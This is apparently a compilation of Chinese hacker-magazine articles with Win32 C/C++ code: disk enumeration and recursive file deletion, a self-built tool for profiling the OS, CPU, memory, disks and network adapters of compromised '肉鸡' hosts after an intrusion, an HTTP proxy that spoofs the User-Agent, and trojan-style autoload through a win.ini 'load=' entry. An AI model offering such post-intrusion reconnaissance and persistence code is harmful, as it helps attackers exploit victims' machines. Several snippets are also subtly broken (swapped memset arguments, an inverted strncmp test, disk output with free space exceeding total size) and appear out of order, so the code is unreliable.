void CDrvSpaceDlg::FindAllDrivers()
{
    CComboBox* Driver=(CComboBox*)GetDlgItem(IDC_DRIVER);
    DWORD dwNumBytesForDriveStrings;
    HANDLE hHeap;
    LPSTR lp;
    CString strLogdrive;

    dwNumBytesForDriveStrings = GetLogicalDriveStrings(0, NULL) * sizeof(TCHAR);
    // ...
}
```

```cpp
if (dwNumBytesForDriveStrings != 0) {
    // 为了实现安全的内存分配
    hHeap = GetProcessHeap();
    lp = (LPSTR)HeapAlloc(hHeap, HEAP_ZERO_MEMORY, dwNumBytesForDriveStrings);
    GetLogicalDriveStrings(HeapSize(hHeap, 0, lp), lp);
    while (*lp != 0) {
        Driver->AddString(lp);
        lp = _tcschr(lp, 0) + 1;
    }
} else {
    AfxMessageBox("Can't Use The Function GetLogicalDriveStrings!");
}
```

```cpp
res = ff.FindNextFile();
if (ff.IsDirectory() && !ff.IsDots()) {
    // 如果是一个子目录，用递归继续往深一层找
    BrowseDir(ff.GetFilePath());
} else if (!ff.IsDirectory() && !ff.IsDots()) {
    // 显示当前访问的文件
    CString str;
    str.Format("当前访问的文件：%s", ff.GetFilePath());
    p->SetWindowText(str);
    Sleep(500);
}
ff.Close();
```

注：这些程序为了面向广泛的读者，都没有使用 GUI 线程与 WORKER 线程分离的技术，所以程序运行起来之后，只有强制结束，还望读者谅解。

### 递归法遍历磁盘目录

上面是病毒类技术常用的搜索当前计算机上磁盘信息的方法，属于“黑”方面的，下面我们来看一个属于“白”方面的：杀毒软件大家不陌生吧？当运行一个杀毒软件的时候，我们经常可以看到软件在不停地搜索文件，并不断将搜索到的文件显示出来。这里所用到的技术就是将要提到的递归法遍历磁盘技术。

MFC 的 CFileFind 类的函数 FindFile 和 FindNextFile 可以访问某一个目录下一层的文件和文件夹，然后调用函数 IsDirectory 和 IsDots（每一个文件夹新建时都有两个默认文件夹，分别用 . 和 .. 表示，这里使用 IsDots 就是为了排除这两个文件夹）判断到底是文件夹还是文件，如果是文件夹则继续向下一层目录递归搜索，直到所有的文件都访问完为止，这样就可以轻松实现磁盘的递归遍历。这里没有用到特别难懂的 API 函数，我只是作一个简单解析，程序用 VC++ 6.0 写成，源代码放在附书光盘中，名为“磁盘的递归遍历”，读者可以找出来执行一下，看一下效果。核心部分的源代码如下：

Windows 中提供了检索文件的工具，而且功能很强大。本例中我们将讨论如何在自己的程序中实现这一功能。有些函数的使用与第二例相似，所以就不多说，下面来看一下实现的程序。读者请查看光盘“源代码”栏目，按照文章名查找即可，使用 VC++ 6.0 编写。

```cpp
void CBrowseDirDlg::BrowseDir(CString strDir)
{
    CFileFind ff;
    CString szDir = strDir;
    if (szDir.Right(1) != "\\") szDir += "\\";
    szDir += "*.*";
    BOOL res = ff.FindFile(szDir);
    while (res) {
        ...
    }
}
```

```cpp
void CSearchFileDlg::SearchFile(CString strDir, CString strFile)
{
    CFileFind ff;
    CString szDir = strDir;
    if (szDir.Right(1) != "\\") szDir += "\\";
    szDir += "*.*";
    BOOL res = ff.FindFile(szDir);
    while (res) {
        res = ff.FindNextFile();
        if (ff.GetFileName() == strFile) {
            m_ctrlFilesList.AddString(ff.GetFilePath());
        }
        if (ff.IsDirectory() && !ff.IsDots()) {
            SearchFile(ff.GetFilePath(), strFile);
        }
    }
}
```

### 删除不为空的目录

删除目录时，必须保证目录为空，否则将不允许删除。这里使用 Windows 提供的 RemoveDirectory，在保证目录中文件已全部删除后再删除空目录。对多级子目录采用递归方式处理。程序核心部分如下，使用 VC++ 6.0 实现。

```cpp
void CDelUnEmptyDirDlg::RecursiveDelete(CString s2Path)
{
    CFileFind ff;
    CString path = s2Path;
    if (path.Right(1) != "\\") path += "\\";
    path += "*.*";
    BOOL res = ff.FindFile(path);
    while (res)
    {
        res = ff.FindNextFile();
        if (ff.IsDots()) continue;
        else if (!ff.IsDirectory())
            DeleteFile(ff.GetFilePath());
        else {
            path = ff.GetFilePath();
            RecursiveDelete(path);
            RemoveDirectory(path);
        }
    }
    RemoveDirectory(s2Path);
}
```

写到这里，并没有将黑白对抗中所有磁盘操作技术全部展开，读者可结合上述方法在实践中举一反三，触类旁通。

### 后记

> 关于磁盘操作技术，细节和技巧很多。建议多看程序、多观察调用方法，不仅知其然也知其所以然。可在相关技术社区继续交流。

icefire：如何收集肉鸡系统信息、如何定制适合自己习惯的信息检测程序，是入侵中常见问题。通过几个实用 API 即可实现，下面一起 DIY 一个属于自己的肉鸡系统信息检测工具。

- 难度等级：中级
- 前置知识：C 语言编写基础

## 轻松查现检测

## Windows 肉鸡系统信息

入侵后第一步通常是查看目标主机系统信息，再决定后续操作。全手工低效，工具化更方便，因此应按 DIY 思路打造适合自己的系统信息检测工具。

### 操作系统详细信息收集

系统信息通常包括操作系统版本、Service Pack、Build 号等。可通过 `GetVersionEx(LPOSVERSIONINFO lpVersionInfo)` 获取版本结构信息；难点在于正确解析 OSVERSIONINFO 结构并判断具体系统类型。可参考 MSDN 示例并按实际需求修改。最后，把这个功能封装成一个函数，以方便以后使用。这个函数比较长，检测的系统比较多，有些系统我们现在很少遇到了。这个函数的作用就是直接输出操作系统版本、Service Pack 版本和 Build 号，在电脑上的运行结果为：

OS: Microsoft Windows XP Professional (Build2600)

### 运行时间收集

肉鸡是不是经常维护、管理是我们判断一个服务器是不是好肉鸡的一大重要标准。试想，如果一个服务器 5 年都不重新启动一次，那它还有什么安全性可言呢？当然，遇到这样的肉鸡可是上辈子修来的福分 :)！Microsoft 正好给我们提供了一个 GetTickCount() 函数，这个函数能返回从开机到现在的运行时间，以毫秒计。不过有一点需要注意：由于这个函数返回的是 DWORD 类型的值，因此最多能检测到的运行时间是 49.7 天（这对于普通的肉鸡来说时间已经够了）。

```c
// 得到运行时间
void GetRunningTime()
{
    DWORD dwTime;
    int nDay, nHour, nMinute;
    dwTime = GetTickCount();
    nMinute = dwTime / 60000;
    nHour = nMinute / 60;
    nMinute = nMinute - nHour * 60;
    nDay = nHour / 24;
    printf("Running Time: ");
    printf("%d day(s)", nDay);
    printf("%d hour(s)", nHour);
    printf("%d minute(s)", nMinute);
    printf("\n");
}
```

成功编译运行后，在电脑上的输出结果为：

> Running Time: 0 day(s)0 hour(s)18 minute(s)

这样是不是很方便呢？

### 主机名和当前用户名收集

这个服务器的主机名是什么？上面有哪些用户？当前用户是什么？这些都是相当重要的信息，说不定这个服务器就是什么 FBL 的服务器呢！Microsoft 提供的函数 GetComputerName() 和 GetUserName() 能很方便地达到这个目的。这两个函数的原型为：

```c
BOOL GetComputerName(LPTSTR lpBuffer, LPDWORD lpnSize);
```

其中，lpBuffer 是返回主机名缓冲区的地址，lpnSize 是指向缓冲区大小的指针。

```c
BOOL GetUserName(LPTSTR lpBuffer, LPDWORD nSize);
```

其中，lpBuffer 是返回当前用户名的缓冲区地址，nSize 也是指向缓冲区大小的指针。具体程序如下：

```c
// 得到计算机名
void GetMyComputerName()
{
    LPTSTR lpszName;
    DWORD dwSize = 1024;
    TCHAR tchBuffer[1024];
    lpszName = tchBuffer;
    GetComputerName(lpszName, &dwSize);
    printf("Computer Name: ");
    printf("%s", lpszName);
    printf("\n");
}

// 得到当前用户名
void GetCurrentUser()
{
    LPTSTR lpszName;
    DWORD dwSize = 1024;
    TCHAR tchBuffer[1024];
    lpszName = tchBuffer;
    GetUserName(lpszName, &dwSize);
    printf("Current User: ");
    printf("%s", lpszName);
    printf("\n");
}
```

这两个函数很简单，在电脑上输出结果为：

> Computer Name: SKY  
> Current User: SKYMAN

### 系统文件夹路径收集

如果我们是用 IPC 管道来向肉鸡传送文件，然后再登录上肉鸡，这时候我们就需要知道到什么地方去找那些刚传上来的文件。一般来说，文件是 copy 到 Administrators\system32 下面的，而你想过 Admin$ 代表什么没有？下面这个函数可以给你答案。

```c
// 得到系统目录
void GetMySystemDirectory()
{
    LPTSTR lpszName;
    DWORD dwSize = MAX_PATH + 1;
    TCHAR tchBuffer[MAX_PATH];
    lpszName = tchBuffer;
    GetSystemDirectory(lpszName, dwSize);
    printf("System Directory: ");
    printf("%s", lpszName);
    printf("\n");
}
```

这里用到了 `GetSystemDirectory()` 这个 API 函数。这个函数的原型为：

```c
UINT GetSystemDirectory(LPTSTR lpBuffer, UINT uSize);
```

其中，`lpBuffer` 是返回系统文件夹的缓冲区地址，`uSize` 是该缓冲区的大小。系统文件夹有了，Windows 文件夹自然也就能得到。不过使用的是另一个 API 函数 `GetWindowsDirectory()`，有兴趣的读者可以自己试试。这个函数在电脑上输出结果为：

```text
System Directory: D:\WINDOWS\System32
```

注：我的系统是 Windows 98 + Windows XP，当前系统是 Windows XP，系统盘在 D 盘。

### 肉鸡 CPU 信息收集

CPU 的重要性不需要我再讲了吧？要是一个肉鸡有 4 个 Intel P4 3.2G 的 CPU，嘿嘿，那可是极品哦！我们知道在注册表 `HKEY_LOCAL_MACHINE\Hardware\Description\System\CentralProcessor\0` 下面有个 `ProcessorNameString`，它的值就是 CPU 的名字，我们只要把这个值读出来就行了。当然这个值并不是很可靠的，因为可以修改，但是相信很少有人去改它吧？

```c
// 得到CPU信息
void GetCPUInfo()
{
    long lResult;
    HKEY hKey;
    TCHAR tchData[64];
    DWORD dwSize;

    lResult = RegOpenKeyEx(HKEY_LOCAL_MACHINE,
        "Hardware\\Description\\System\\CentralProcessor\\0",
        0, KEY_QUERY_VALUE, &hKey);
    if (lResult == ERROR_SUCCESS)
    {
        dwSize = sizeof(tchData);
        RegQueryValueEx(hKey, "ProcessorNameString", NULL,
            NULL, (LPBYTE)tchData, &dwSize);
        printf("CPU:");
        printf("%s", tchData);
    }
    else
    {
        printf("CPU:");
        printf("Unknown");
    }
    RegCloseKey(hKey);
    printf("\n");
}
```

了解这个原理以后，你就可以修改这个值来欺骗别人了。可以手动修改，也可借助工具，比如 Windows 优化大师。

`HKEY_LOCAL_MACHINE\Hardware\Description\System\CentralProcessor\0` 下还有好几个键值与 CPU 有关，如果你觉得仅仅名字不够详细时，也可以把其他感兴趣的键值一并读出来。在电脑上输出的 CPU 名字为：

```text
CPU: AMD Athlon(TM) XP1800+
```

### 肉鸡内存信息收集

Windows 系统提供了一个 `GlobalMemoryStatus()` API 函数来查询内存状态，利用它就可以很方便地得到物理内存、虚拟内存的当前值。当然，在这里我们只需要得到总物理内存和可用内存大小即可。该 API 函数的原型为：

```c
void GlobalMemoryStatus(LPMEMORYSTATUS lpBuffer);
```

`lpBuffer` 是一个指向 `MEMORYSTATUS` 结构的指针。执行 `GlobalMemoryStatus()` 函数就可以得到一个 `MEMORYSTATUS` 结构，它表示当前内存的状态。下面，我们要用到 `MEMORYSTATUS` 结构的两个成员：

```c
SIZE_T dwTotalPhys;
SIZE_T dwAvailPhys;
```

这两个成员从字面上可以了解到前者表示总物理内存，后者表示可用物理内存，但是要注意返回的是以字节为单位的量。

```c
// 得到内存信息
void GetMemoryInfo()
{
    long lVar;
    MEMORYSTATUS memoryStatus;
    memset(&memoryStatus, sizeof(MEMORYSTATUS), 0);
    memoryStatus.dwLength = sizeof(MEMORYSTATUS);
    GlobalMemoryStatus(&memoryStatus);

    lVar = memoryStatus.dwTotalPhys / 1024; // 转换为KB
    printf("Total Memory:");
    printf("%ld KB\n", lVar);

    lVar = memoryStatus.dwAvailPhys / 1024; // 转换为KB
    printf("Available Memory:");
    printf("%ld KB\n", lVar);
}
```

输出为以 KB 为单位的内存大小。在电脑上输出结果为：

```text
Total Memory: 261600 KB
Available Memory: 40336 KB
```

### 肉鸡磁盘信息收集

肉鸡硬盘有几个分区？每个分区有多大？剩余空间有多少？能装下多少部电影？能放下多少个论坛？能承受多大的数据？这些都是获得肉鸡后最关心的价值问题，如何得到？要达到这个目的稍微复杂一些。

首先，我们要调用 `GetLogicalDriveStrings()` 这个 API 函数。

目的是想得到一个包含所有磁盘名的字符串，并把各个磁盘名从这个字符串中提取出来。`GetLogicalDriveStrings()` 函数的原型为：

```c
DWORD GetLogicalDriveStrings(DWORD nBufferLength,
LPTSTR lpBuffer);
```

`lpBuffer` 就是上面提到的那个字符串，`nBufferLength` 是缓冲区的最大值。然后针对每个盘，调用 `GetDriveType()` 来判断磁盘类型，比如有固定硬盘分区、光驱、移动分区等。`GetDriveType()` 函数的原型为：

```c
UINT GetDriveType(LPCTSTR lpRootPathName);
```

参数 `lpRootPathName` 表示目标磁盘的根目录名，比如 `C:\`，这个值从上面函数得到。如果 `GetDriveType()` 返回 `DRIVE_FIXED`，就表示这是一个固定硬盘。但是我试了一下，光盘也同样返回 `DRIVE_FIXED`。这时，就可以调用 `GetDiskFreeSpaceEx()` 来得到该盘的空间信息了。`GetDiskFreeSpaceEx()` 函数原型为：

```c
BOOL GetDiskFreeSpaceEx(LPCTSTR lpDirectoryName,
PULARGE_INTEGER lpFreeBytesAvailable,
PULARGE_INTEGER lpTotalNumberOfBytes,
PULARGE_INTEGER lpTotalNumberOfFreeBytes);
```

`lpDirectoryName` 表示目标磁盘的一个目录名，这个值从 `GetLogicalDriveStrings()` 返回的字符串中得到。  
`lpFreeBytesAvailable` 表示目标磁盘上用户线程可用空间，以字节为单位。  
`lpTotalNumberOfBytes` 表示目标磁盘总大小，以字节为单位。  
`lpTotalNumberOfFreeBytes` 表示目标磁盘剩余空间大小，以字节为单位。  
详细代码请查看光盘“源代码”栏目，按照文章名查找即可。

在这个函数里面调用了两次 `GetLogicalDriveStrings()`，第一次调用的目的是获得一个能够容纳包含所有磁盘名的字符串的长度，第二次调用就是获得这个字符串。这个函数在我的电脑上输出结果为：

```text
Disk information:
C:\ (FIXED) Total Size: 1619348 KB, Free Size: 1152608 KB
D:\ (FIXED) Total Size: 4128672 KB, Free Size: 1323064 KB
E:\ (FIXED) Total Size: 6269116 KB, Free Size: 1232324 KB
F:\ (FIXED) Total Size: 1226648 KB, Free Size: 1318864 KB
G:\ (FIXED) Total Size: 12189408 KB, Free Size: 2980312 KB
H:\ (FIXED) Total Size: 2562332 KB, Free Size: 1527204 KB
I:\ (CDROM)
```

可看到共有 C-I 7 个盘，其中前 6 个是硬盘分区。

得到这些信息以后，就可以考虑把肉鸡的硬盘当成电影服务器的存储空间了，呵呵。

### 肉鸡网络信息收集

肉鸡有几块网卡？每个网卡设置是多少 IP？子网掩码是多少？网关和 MAC 地址是多少？——这些信息有什么用？代理、渗透入侵、sniffer 都要用到！

为此，我们需要封装两个函数，一个用来找出网卡的 MAC 地址，另一个检测其他项。我们先来看看第一个函数。详细代码请查看光盘“源代码”栏目，按照文章名查找即可。其中，`ASTAT` 是自定义的一个结构：

```c
typedef struct _ASTAT {
  ADAPTER_STATUS adapt;
  NAME_BUFFER NameBuff[30];
} ASTAT, *PASTAT;
```

其中，`ADAPTER_STATUS` 又是一个复杂的结构，但是它有个成员我们感兴趣，那就是：

```c
UCHAR adapter_address[6];
```

其实一看就知道这就是网卡的 MAC 地址，被分成 6 个部分，每部分 1 个字节，我们所要做的就是把它转换为可读形式即可。`NCB` 也是一个结构，这个结构虽然复杂，但我们常用到的是其中的 3 个成员：

```c
UCHAR ncb_command; // 命令
PUCHAR ncb_buffer; // 返回结果缓冲区
WORD ncb_length;   // 缓冲区大小
```

我们通常是这样用的：先初始化 `NCB` 结构，给 `ncb_command` 一个命令，给 `ncb_buffer` 和 `ncb_length` 赋值。然后调用 `Netbios()` 函数执行，执行后我们想得到的结果就存放在 `ncb_buffer` 中了。`Netbios()` 函数原型为：

```c
UCHAR Netbios(PNCB pncb);
```

参数 `pncb` 是指向 `NCB` 结构的指针。`GetMacAddress()` 有个参数 `DWORD dwIndex`，表示网卡序号，它的值从下一个函数传过来。该函数的实现过程就是先执行 `NCBENUM` 命令，枚举每一块网卡，然后执行 `NCBRESET` 命令重置，最后执行 `NCBASTAT` 查询网卡状态，这样我们就得到了每块网卡的 MAC 地址。这个函数涉及到 NETBIOS 编程，有兴趣的朋友可以参考《Visual C++ 网络高级编程》和《Windows 网络编程技术》。

下面实现第二个函数。详细代码请查看光盘“源代码”栏目，按照文章名查找即可。上面的函数中调用了两个宏 `ALLOCATE_FROM_PROCESS_HEAP()` 和 `DEALLOCATE_FROM_PROCESS_HEAP()`，这两个宏的定义分别为：

```c
#define ALLOCATE_FROM_PROCESS_HEAP(bytes) \
  HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, bytes)

#define DEALLOCATE_FROM_PROCESS_HEAP(ptr) \
  if (ptr) HeapFree(GetProcessHeap(), 0, ptr)
```

`GetAdaptersInfo()` 函数原型为：

```c
DWORD GetAdaptersInfo(
  PIP_ADAPTER_INFO pAdapterInfo,
  PULONG pOutBufLen
);
```

参数 `pAdapterInfo` 是指向 `IP_ADAPTER_INFO` 结构的指针，`pOutBufLen` 表示该结构缓冲区大小。`IP_ADAPTER_INFO` 结构成员很多，具体形式可查 MSDN。获得 MAC 地址时调用了 `GetMacAddress()` 函数。这两个函数在电脑上输出结果为：

```text
Network Adapter
Description: ... PCI Fast Ethernet Adapter
MAC Address: 00:30:1b:49:ab:53
IP Address: 192.168.0.6
Subnet Mask: 255.255.255.0
Default Gateway: 192.168.0.1

Description: VMware Virtual Ethernet Adapter for VMnet1
MAC Address: 00:50:56:c0:00:01
IP Address: 192.168.81.1
Subnet Mask: 255.255.255.0

Description: VMware Virtual Ethernet Adapter for VMnet8
MAC Address: 00:50:56:c0:00:08
IP Address: 192.168.5.1
Subnet Mask: 255.255.255.0
```

第一个是我的网卡，后两个是 VMware 虚拟出来的。通过上面的步骤，已经可以量身定位适合自己使用的信息检测工具；如果有编译器，也可以很快自己写一个程序出来。

## HTTP 代理服务篇

Socket、HTTP 这些常见术语很多朋友都有所了解，或许也试过使用 sniffer/抓包工具分析网络数据包，但对 HTTP 细节未必都清楚。本文将介绍代理服务器编写相关问题，并给出答案。

- 适合对象：编程爱好者、对 HTTP 协议有初步了解者
- 前置知识：HTTP、C 语言基础

如果你已经有相当的 HTTP 基础，可以直接阅读实战部分。受篇幅与协议复杂度所限，本文不会覆盖全部协议内容；建议深入者参考 RFC 1945、2045、2068、2616 等文档。

> Socket：如果你对英文较敏感，也可以先阅读相关英文资料。部分 RFC 文档已有译注，资料较丰富。

HTTP（HyperText Transfer Protocol，超文本传输协议）是应用层协议（TCP/IP 分层中的高层协议），也是 WWW 的基础。


HTTP 是一种请求/响应协议。客户端向服务器提交请求（方法、URL、协议版本及附加信息等），服务器返回响应（协议版本、状态码、服务器信息等）。HTTP 是无状态协议，且通常基于可靠的 TCP 连接，常用端口 80。

### HTTP 代理简述

HTTP 的创造是惊人的，它提供了浏览器与 Web 服务器之间的通信规则。一个基于 HTTP 协议的应用实例是 HTTP 代理服务器（PROXY）。代理服务器是一种位于客户端（Client）和服务器（Server）之间的程序，它同时扮演着客户端（对服务器而言）和服务器（对客户端而言）的角色。HTTP 代理服务器把客户端发来的请求传递到服务器（也可能是下一个代理），接受服务器发来的响应报文并转发到客户端。有的时候，代理需要根据实际情况更改发送来的请求报文。代理服务器软件一般用于内网经过的网关、带有防火墙的服务器，用来对数据进行双向转发，实现处理用户代理尚未实现的转发功能。

### HTTP 报文简识

我们用一个连接中的 HTTP 交换报文来解释报文中常用字段的含义。只介绍那些有关的和一些重要的首部字段（这些首部字段太多了，更多的认识可以参考 RFC 文档的 1945、2045、2046、2616 号），也就是写一个 HTTP 代理服务器需要知道的基本字段。

一个普通请求报文如下：

```text
GET / HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, */*
Accept-Language: zh-cn
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; .NET CLR 1.1.4322)
Host: www.gedao.com
Connection: Keep-Alive
```

首先的第一行是请求行（也可以说动作、方法，Request-Line），通常的格式为：

| 方法 | 作用描述 |
|---|---|
| GET | 请求指定资源 |
| HEAD | 仅读取请求报文头部信息 |
| POST | 请求服务器接受客户端指定的数据 |
| PUT | 用从客户端请求的数据替换服务器上指定数据 |
| DELETE | 删除服务器上指定的资源 |
| OPTIONS | 服务器性能参数信息 |

其实真正常用的也只有 GET 和 POST 两个（HEAD 一般用来确认主机能响应信息）。GET 方法用于取得服务器资源，比如网页。POST 方法用于提交某些信息给服务器。然后一个空格后是你要获取的资源路径（Request-URL），这个报文中是根目录（“/”）。接下来还有一个空格后就是使用的协议版本号了，这里是“HTTP/1.1”。

以上第一行之后的字段稍后连同回应报文一起说明。需要注意的是，GET 方法发送的只有请求头部信息（只有请求行和相应的字段）。而 POST 除了发送头部信息外，紧跟着的还有一个空行间隔和一些数据信息。

之后我们会得到服务器的回应信息，不同的服务器有不同的回应信息：

```text
HTTP/1.1 200 OK
Server: Microsoft-IIS/5.0
Content-Location: http://www.gedao.com/index.htm
Date: Thu, 18 Dec 2003 09:31:41 GMT
Content-Type: text/html
Accept-Ranges: bytes
Last-Modified: Sun, 14 Dec 2003 06:41:48 GMT
Content-Length: 1217
```

第一行是服务器响应信息（Status-Line），首先是协议版本（这里是 HTTP/1.1），然后一个空格后跟着的就是状态码了，这里列出一点状态码：

| 客户端错误 | 客户端成功 | 重定向 | 服务器错误 |
|---|---|---|---|
| 400 错误请求 | 200 请求成功 | 300 多路选择 | 500 服务器内部错误 |
| 401 需要认证 | 201 新资源创建 | 301 已被转移 | 501 没有实现 |
| 403 不明禁止 | 202 请求被接受 | 302 暂时转移 | 502 网关无效响应 |
| 404 没有找到 | 204 无内容 | 305 使用代理 | 503 服务暂时失效 |

大家肯定看到上面的报文中除了首行外有相当一部分字段信息，这些信息就是所谓的首部信息字段（Headers，也叫报文头信息）。这些字段的数量是可变的，字段名和具体字段值用“: ”分开，字段名不分大小写，是用来向发送方提供某些附加信息的，每个信息占一行，结尾用 CRLF（回车换行“\r\n”）字符表示。以下是各字段名和相应描述：

| 字段名 | 描述 |
|---|---|
| Accept | 客户端接收的数据（资源）类型 |
| Accept-Language | 客户端接受的首选语言类型 |
| Accept-Encoding | 客户端可接受的内容编码 |
| User-Agent | 客户端信息 |
| Host | 目的主机名称 |
| Connection | 连接状态 |
| Server | 服务器信息 |
| Content-Location | 获取的资源在服务器上的位置 |
| Date | 服务器时间 |
| Content-Type | 本次传送的数据类型（RFC2046） |
| Accept-Ranges | 本次传送的数据长度单位 |
| Last-Modified | 这个数据的最后修改时间 |
| Content-Length | 本次传输的数据长度 |

其实写一个代理，知道这些字段是干什么的也就够了。根据 HTTP 代理服务的定义，我们就可以开始写了。

### 代理服务器的编写

看了这么多的原理，相信大家对 HTTP 也有了一个大概的了解，下面我就用代码来说明一个 HTTP 代理服务器的工作过程。这次，我们只写经常用到的 GET、POST、HEAD 3 个动作。全部的代码都是用 C 写的，边说边写，BC 编译器下通过。

> 由于篇幅关系，代码、变量、函数声明等等都不可能完整，详细代码请查看光盘“源代码”栏目，按照文章名查找即可。

首先是一个建立环境的过程，代理服务器使用的端口可以任意选择，但是常用的是 80、8080、3128 等端口。我们这里以 8080 为例作为监听端口：

```c
ServerStk.sin_family = AF_INET;
ServerStk.sin_port = htons(8080);
ServerStk.sin_addr.S_un.S_addr = INADDR_ANY;
// 任何地址
...
while(1)
{
    ServerBegin[i] = accept(ProServer,
        (struct sockaddr *)&ClientCont, &ServerStkSize);
    if(ServerBegin[i] == INVALID_SOCKET)
        return 1;

    if(CreateThread(NULL, 0, ProClientThread,
        (LPVOID)&ServerBegin[i], 0, &funid) == 0)
        continue;

    char *ReceiveBuf = (char*)malloc(sizeof(char)*MAX_CHARBUFF);
    char *SenderBuf  = (char*)malloc(sizeof(char)*MAX_CHARBUFF);

    DataLen = recv(ClientConSock, ReceiveBuf, MAX_CHARBUFF, 0);
    if(DataLen != SOCKET_ERROR && DataLen != 0)
    {
        if(!strnicmp(ReceiveBuf, "GET ", 4))
            ...
    }
}
```

这里的判断过程我就不详细说明了（详细代码请查看光盘“源代码”栏目，按照文章名查找即可），接下来的步骤就是请求报文首行的分析。因为发送给代理服务器的报文首部中的那个 Request-URL（资源路径）是完整路径，比如 `http://www.gedao.com/index.htm`。而发给目的主机的报文则是根目录开始的相对路径，如 `/index.htm`。如果说有需要注意的，那就是这个字段了，其他字段可以不作修改。

```c
if(strncmp(ReceiveBuf + SendLen, "http://", HEADLEN))
{
    char *GetIp = Get3Chars(ReceiveBuf + SendLen + HEADLEN, &HedLen);
    memcpy(HeadBuf, ReceiveBuf + SendLen + HEADLEN, HedLen);
    memcpy(SenderBuf + SendLen, GetIp, DataLen - HedLen - HEADLEN);
}
```

接下来的 `SendHeadData` 函数的作用是取得服务器的 IP，然后建立连接，并把第一次接收到的数据发送给服务器：

```c
SOCKET ServerSocket = GetServerAddr(Msg, DataLen);
// GetServerAddr 函数即是对服务器地址继续处理

ChangeSyInfo(Msg);
// 这个函数可有可无，是用来修改客户端提交过来的报文，隐藏你的信息

if(send(ServerSocket, Msg, DataLen, 0) == SOCKET_ERROR)
    ...
```

下面，先来看看 `GetServerAddr` 函数里面到底做了什么：

```c
char *fp = Msg;
for(int i = 0; i < MAX_HOSTNAME && *fp != ':' && *fp != '\0'; i++)
    Host[i] = *fp++;

if(*fp == ':')
    HostPort = atoi(fp + 1);
else
    HostPort = DEFPORT;

ServerAddr.sin_family = AF_INET;
ServerAddr.sin_port = htons(HostPort);

if((HostIp[0] >= '0' && HostIp[0] <= '9'))
    ...

if(setsockopt(ServerSocket, SOL_SOCKET, SO_RCVTIMEO,
    (char *)&time_out, sizeof(time_out)) == SOCKET_ERROR)
    ...

if(connect(ServerSocket, (SOCKADDR *)&ServerAddr,
    sizeof(ServerAddr)) == SOCKET_ERROR)
    ...
```

> Socket：本文中所有完整源代码及可执行文件请查看光盘“源代码”栏目，按照文章名查找即可。

到了这里，就和服务器建立了连接，就可以把刚才第一次接收的数据发送给服务器了（注意，是把 Request-URL 经过修改之后的那些数据）：

```c
if(send(ServerSocket, Msg, DataLen, 0) == SOCKET_ERROR)
    ...
```

发送完了数据，我们就可以返回用户主线程。这个时候就可以判断，如果是 GET 和 HEAD 的客户端请求，就只要接受服务器发来的信息，再传给客户端，完成之后就可以关闭这个连接（HTTP 没有保持这个连接）。如果是 POST 模式，那么就要看看客户端的数据到底发送完毕没有，如果没有，那么就必须先把客户端的数据全部转发到服务器去，然后再从服务器接受回应数据，转发给客户端，最后再关闭这个连接。

```c
if(tags == 1 || tags == 2)
    RecvSendData(ServerSocket, ClientConSock, SendLenBuf);
// 接受服务器发来的数据
```

下面来看看 `RecvSendData` 函数写的是什么：```c
// 从A处接收数据发往B处
int sendlen = 100;
while (sendlen > 0)
{
    if ((sendlen = recv(Rsck, SendBuf, MAX_CHARBUFF, 0)) <= 0)
        break; // 接收
    if (send(Ssck, SendBuf, sendlen, 0) < 0)
        break; // 发送
}
```

这个函数其实是一个转发函数。这个函数不仅可以用于把接收服务器数据转发到客户端，也可以用于 POST 模式下从客户端接收数据发送往服务器。我们可以建立一个线程来交换两个 SOCKET 句柄，调用这个函数，并同时用相反的 SOCKET 句柄再调用这个函数，就可以实现 POST 转发了。

```c
// 建立线程来接收 POST 剩下的数据，然后调用函数接收服务器发来的数据
if (CreateThread(NULL, 0, RSThread, (LPVOID)&SendSck, 0, &funid) != 0)
{
    RecvSendData(ServerSocket, ClientConSock, SenderBuf);
}

// RSThread 线程里面就是把接收的句柄交换，然后再建立 RecvSendData 函数
struct sendoldsck SendSck = {0};
memcpy((void*)&SendSck, lpParam, sizeof(SendSck));
RecvSendData(SendSck.Rsck, SendSck.Ssck, SendSck.Buff);
```

到这里，一个简单的 HTTP 代理服务器就基本完成了，不到 200 行代码，实现了 GET、POST、HEAD 3 种方式。你完全可以用它来试试上网、逛论坛，速度还是很快。

因为没有用一些速度较慢的函数（如 `strstr`），这样的 HTTP 代理服务器还是很简单的。在简单前提下，就萌发了一点点修改的念头（代理可以修改数据后转发），下面就看看 ChangeSysInfo 函数里面是什么内容。

```c
char HostBan[] = "User-Agent: Mozilla/4.0 (compatible; MSIE ... )";
char *ip = strstr(Msg, HostBan);
if (ip != NULL) strcpy(to + strlen(HostBan), "8.8 Windows ZV 5.1");
```

这段代码的意思是找到包括 `User-Agent: Mozilla/4.0 (compatible; MSIE 6.0, Windows NT...)` 这样的字段，然后修改成所要的值。这样一些服务器就会误以为这些是你的机器参数，从而达到隐藏真实系统和 IE 信息的目的。当然，更改系统信息可能导致另外一些问题，比如某些网站可能不能提供部分服务。

### 后记

全篇通过对 HTTP 协议的说明和运用，写出了一个简单的 HTTP 代理服务器。代理服务器这类程序占用资源比较大，所以缓冲设置要科学，尽量做到够用。共享代理服务器要求速度极高，除了硬件之外程序结构也很重要，尽量少用没必要的慢函数，错误处理要完善。最重要的还是协议理解：根据协议写出的程序才更通用。

> Socket 程序的自动加载技术经常被木马、病毒或恶意软件使用。本文从 INI 文件操作与注册表关联角度，介绍了相关函数与简单实现，具有较强实操性。适合对象：编程技术爱好者。前置知识：C 语言、INI 基础。

## 文件读写技术及程序自动加载应用剖析

INI 文件是 Windows 系统中一类比较重要的文件，常用于存放系统或应用程序配置信息，以便初始化时读取。如 `win.ini`、`system.ini` 等，涉及系统启动或用户登录相关信息。这类文件在提供便利的同时，也为非法程序自动运行提供了可乘之机。

对于 ini 文件的读写与普通文本文件有差异，主要体现在编程实现上。文中将介绍一些常用 API 函数，并通过简单程序示例说明其用法。先来看几个往配置文件中写入信息的函数。

- （1）`WritePrivateProfileSection()` 用来在 ini 文件中直接向指定区域写入键和值的信息，其原型如下：

```c
BOOL WritePrivateProfileSection(
    LPCTSTR lpAppName,   // 指向指定字段的字符串
    LPCTSTR lpString,    // 指向要写入的键与值字符串
    LPCTSTR lpFileName   // 指向文件名字符串
);
```

用法示例：

```c
WritePrivateProfileSection(_T("windows"), _T("load=c:\\winnt\\notepad.exe"), _T("c:\\winnt\\win.ini"));
```

